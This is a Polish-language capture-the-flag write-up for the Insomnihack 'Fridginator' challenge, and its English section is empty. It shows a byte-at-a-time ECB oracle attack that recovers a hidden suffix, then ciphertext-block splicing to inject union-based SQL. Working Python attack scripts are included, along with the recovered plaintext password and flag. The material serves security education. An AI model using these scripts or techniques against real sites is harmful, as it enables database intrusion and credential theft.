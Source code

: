 ##Fridginator (Crypto/Web, 200p)

> My brother John just bought this high-tech fridge which is all flashy and stuff,
> but has also added some kind of security mechanism which means I can't steal his
> food anymore... I'm not sure I can survive much longer without his amazing yoghurts.
> Can you find a way to steal them for me?
> http://fridge.insomnihack.ch/

###PL
[ENG](#eng-version)

Łączymy się ze wskazanym adresem. Trzeba zarejestrować swojego użytkownika.

Zaczynamy od sprawdzenia co możemy zrobić. Możemy dodawać 'jedzenie' do lodówki, wyciągać swoje jedzenie, oraz wyszukiwać użytkowników i jedzenie.

Ta ostatnia opcja wydaje się ciekawa, ponieważ oba pola wyszukiwania prowadzą ostatecznie do bardzo podobnej strony. Wyszukanie użytkownika 'aaa' redirectuje do:

http://fridge.insomnihack.ch/search/c5c376484a22a1a196ced727b32c05ce706fa0919a8b040b2a2ba335c7c45726/

A wyszukanie jedzenia 'aaa' redirectuje do:

http://fridge.insomnihack.ch/search/c5c376484a22a1a196ced727b32c05ceed1a8d4636d71c65dcf1bca14dac7665/

Nasza myśl (jak później się okazało - prawie trafna): być może parametr do search to zaszyfrowane jakimś szyfrem blokowym zapytanie SQL.

Długość bloku to 16 bajtów - można to sprawdzić, bo szyfrowanie 0123456789ABCD daje w wyniki:

    b15fd5ffdae30bbe81f2ba9ec6930473b57ceb7611442a1380e2845a9b916405

A już zaszyfrowanie 0123456789ABCDE (15 znaków) daje:

    b15fd5ffdae30bbe81f2ba9ec6930473cce0dd7d051074345c5a8090ba39d24cb9719c83f5ab5c0751937a39150c920d

Mamy już jedną informację. Teraz możemy sprawdzić czy bloki są w jakiś sposób przeplatane (CTR, CBC), czy szyfrowane niezależnie (ECB):

Zaszyfrowanie aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa daje nam w wyniku:

    5616962f8384b4f8850d8cd1c0adce98 e449af7ccbc7f34f2f1976a5fbfeb93f e449af7ccbc7f34f2f1976a5fbfeb93f e449af7ccbc7f34f2f1976a5fbfeb93f 04ea1913c8d3e7f30d2626ee9dfeff07 f1ad77dcff3212b1a5f83d230610d845

Wyraźnie widać powtarzający się blok na środku (więc mamy do czynienia z ECB), ale pierwszy i ostatni blok się różnią (więc do danych jest doklejany jakiś prefiks i sufiks).

Pierwszą rzeczą jaką zrobiliśmy, było napisanie "fuzzera" do zaszyfrowanych danych - gdyż byliśmy ciekawi co powiedzą nam błędy. Kod jest mało ciekawy (podany w [pliku fuzzer.py](fuzzer.py)), ale wyniki bardziej - spośród wyfuzzowanych kilkuset błedów, najciekawsze dwa:

    <p> Error : no such table: objsearch_user♠ </p>
    <p> Error : unrecognized token: &quot;&#39;i WHERE description LIKE ?&quot; </p>

Ok, mamy już jakieś dane. Co teraz? Wpadliśmy na to, że można wyciągnąć "sufiks" który jest doklejany do naszych danych przed szyfrowaniem - bajt po bajcie.

Jak konkretnie to zrobić - wiemy że dane są szyfrowane blok po bloku. Oznaczając przez [xxxxxxxxx] bloki, (i przez 'a' payload) zaszyfrowane dane wyglądają mniej więcej tak:

    [prefixaaaaa][aaaaaaaaaa][aaaaaaaaaa][aaaaaaasuf][fix_______]

Ale jeśli wyślemy odpowiednio długi content, możemy otrzymać taki układ:

    [prefixaaaaa][aaaaaaaaaa][aaaaaaaaaa][aaaaaaaaas][uffix_____]

Co nam to daje - że czwarty blok tak zaszyfrowanych danych skłąda się z 15 znaków 'a', oraz pierwszego bajtu payloadu.
Wystarczy przebrutować około 100 printowalnych znaków ASCII, i sprawdzić który z nich szyfruje się do tego samego bloku co ten powyżej, i mamy pierwszy znak sufiksu. A później powtarzać aż poznamy cały sufiks.

Napisaliśmy do tego taki skrypt (dość skomplikowany, ponieważ trzeba było zaimplementować szyfrowanie przez stronę):

```python
import requests
import time
import string

prefx_len = 7
sufx_len = 11

def encrypt(payload):
    sessid = 'ln8h6x5zwp6oj2e7kz6zd45hlu97q3yp'
    cookies = {'sessionid': sessid}
    cookies['AWSELB'] = '033F977F02D671BCE8D4F0E661D7CA8279D94E64EF1BD84608DB9FFA0FC0F2F4F304AC9CD30CDCC86788A845DF98A68A77D605B8BF768114D93228AACFB536DE3963E28F295D0C2D52138BA1520672BB1428B11124'
    url0 = 'http://fridge.insomnihack.ch/'

    base = requests.get(url0, cookies=cookies)
    text = base.text

    csrf = "<input type='hidden' name='csrfmiddlewaretoken' value='"
    start = text.find(csrf) + len(csrf)
    token = text[start:start+32]
    cookies['csrftoken'] = token

    url = 'http://fridge.insomnihack.ch/users/'
    resp = requests.post(url, data={'term': payload, 'csrfmiddlewaretoken': token}, cookies=cookies, allow_redirects=False)
    prefx = '/search/'
    loc = resp.headers['location']
    return loc[len(prefx):-1]


prefx = 'p' * prefx_len
known_suffix = ''
for i in range(sufx_len):
    content_len = 48 - prefx_len - len(known_suffix) - 1
    content = 'a' * content_len

    crypted = encrypt(content)
    crypted_chunks = chunks(crypted, 32)
    print crypted_chunks
    sought = crypted_chunks[-2]
    print 'sought', i, sought

    for c in [chr(x) for x in range(256)]:
        payload = content + known_suffix + c
        decrypted = encrypt(payload)
        decrypted_chunks = chunks(decrypted, 32)
        print decrypted_chunks
        result = decrypted_chunks[-2]
        if result == sought:
            print 'got', c
            known_suffix += c
            print known_suffix
            break
```

Sufiks który otrzymaliśmy to:

    |type=user

Jesteśmy w domu. Bo patrząc na błędy które otrzymaliśmy, ten typ jest doklejany bezpośrednio do zapytania - więc możemy zrobić SQLi, jeśli tylko nauczymy się jak "dokleić" coś na koniec zaszyfrowanego tekstu.

A możemy spokojnie dokleić coś na koniec ciphertextu, o ile długość ciphertextu jest wielokrotnością 16 bajtów - obrazowo:

    [prefixaaaaa][aaaaaaaaaa][aaaaaaaaaa][aa|type=user][ WHERE 1=1 --]

Spowoduje wykonanie zapytania w rodzaju

    SELECT (?) FROM objsearch_user WHERE 1=1 -- ???

Idealnie.

A blok `[ Where 1=1 --]` (i dowolny inny) możemy spokojnie zaszyfrować - zrobi to za nas strona.

Jest tylko jedna pułapka - padding. Dane szyfrowane szyfrem blokowym muszą mieć długośc równą wielokrotności 16 bajtów. Co jeśli są krótsze?

Jeden z popularnych schematów paddingu (konkretnie, PKCS7) działa tak:
* jeśli danym do wielokrotności 16 bajtów brakuje 1 bajta - doklej na koniec '\x01'
* jeśli danym do wielokrotności 16 bajtów brakuje 2 bajtów - doklej na koniec '\x02\x02'
* jeśli danym do wielokrotności 16 bajtów brakuje 3 bajtów - doklej na koniec '\x03\x03\x03'
* ...
* i uwaga, jeśli danym już są wielokrotnością 16 bajtów - doklej na koniec '\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10'

Ostatni warunek jest konieczny, żeby deszyfrowanie było zawsze jednoznaczne. Tak więc trzeba pamiętać, że ostatni zaszyfrowany blok będzie "fałszywym" blokiem składającym się wyłącznie z bajtów 0x10, i musimy go pominąć a później dokleić na końcu.

Łącząc te wszystkie pomysły, napisaliśmy taki kod:

```python
def hack(query):
    parts = encrypt2(query)
    part = ''.join(parts)
    prfx = 'b15fd5ffdae30bbe81f2ba9ec6930473cce0dd7d051074345c5a8090ba39d24c'
    sufx = 'b9719c83f5ab5c0751937a39150c920d'
    return prfx + part + sufx 

def hack2(query):
    payload = hack(query)
    session = '16if76517xm5zvvwn0l09yq8hqwbgdi5'
    cookies = {'sessionid': session}
    cookies[
        'AWSELB'] = '033F977F02D671BCE8D4F0E661D7CA8279D94E64EFD0AA7BC023208F4937F97452EF3E07B21CF2698ED17FB3AE4D8A6166A17A44ACBC6810BEC0739D56BBE463F63CC54BC91275B57E8FE8CBB9B39F65DFAFFA27C1'
    url = 'http://fridge.insomnihack.ch/search/'
    r = requests.get(url + payload, cookies=cookies)
    return r.text

def hack3(query):
    return hack2(' union all select 1, (' + query + '), 3, 4, 5 union all select 1, 2, 3, 4, 5 from objsearch_user ')

import sys
print hack3(sys.argv[1])
```

Pozwala on trywialnie wykonać dowolne zapytanie na bazie - wygląda na to żę zadanie praktycznie zrobione

Jedyne trzy tabele które znaleźliśmy (niestety, nie mamy screenów) to objsearch_user, objsearch_object oraz sqlite_sequence.

Wyciągneliśmy więc po prostu DDL dla objsearch_user:

    CREATE TABLE &quot;objsearch_user&quot; (&quot;id&quot; integer NOT NULL PRIMARY KEY AUTOINCREMENT, &quot;username&quot; varchar(200) NOT NULL, &quot;description&quot; varchar(2000) NOT NULL, &quot;password&quot; varchar(200) NOT NULL, &quot;email&quot; varchar(200) NOT NULL)

A następnie wyciągneliśmy "password" dla użytkownika "John" - okazało się być plaintextowe:

    SuperDuperPasswordOfTheYear!!!

Wystarczyło w tym momencie zalogowąć się na użytkownika John i "wyciągnąć" jego jedzenie z lodówki:

    Hello Johnny, have your food and a flag, because why not? INS{I_do_encryption_so_no_SQL_injection}

###ENG version

